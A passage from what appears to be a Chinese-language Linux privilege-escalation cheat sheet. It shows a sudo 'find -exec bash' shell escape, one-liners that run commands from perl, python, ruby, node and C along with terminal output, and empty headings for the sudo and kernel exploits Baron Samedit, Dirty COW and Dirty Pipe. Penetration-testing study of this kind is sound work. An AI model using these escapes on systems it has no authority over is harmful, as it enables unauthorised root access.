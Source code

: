 ```plaintext
sudo -u UserName find /etc -iname z -exec bash \;
```

### 2.3 内置编程语言

perl

```plaintext
perl -e 'print `whoami`'
```

python

```plaintext
python2 -c "from os import system; system('whoami')"
python2 -c "from subprocess import call; call(['whoami', '--help'])"
```

ruby

```plaintext
gbb@ca27536ed8de:~$ ruby -e 'puts `whoami`'
gbb
gbb@ca27536ed8de:~$ ruby -e 'require "irb" ; IRB.start(__FILE__)'
irb(main):001:0> puts `whoami`
victim
=> nil
```

Node.js

```plaintext
gbb@aa8553bd270f:~$ node -e '
> var exec = require("child_process").exec;
> exec("whoami", function (error, stdOut, stdErr) {
> console.log(stdOut);
> });
> '
gbb
```

C

```c
int main(void)
{
system("whoami");
}
```

### 2.4 Baron Samedit (CVE-2021-3156)

### 2.5 Dirty COW (CVE-2016-5195)

### 2.6 Dirty Pipe (CVE-2022-0847)
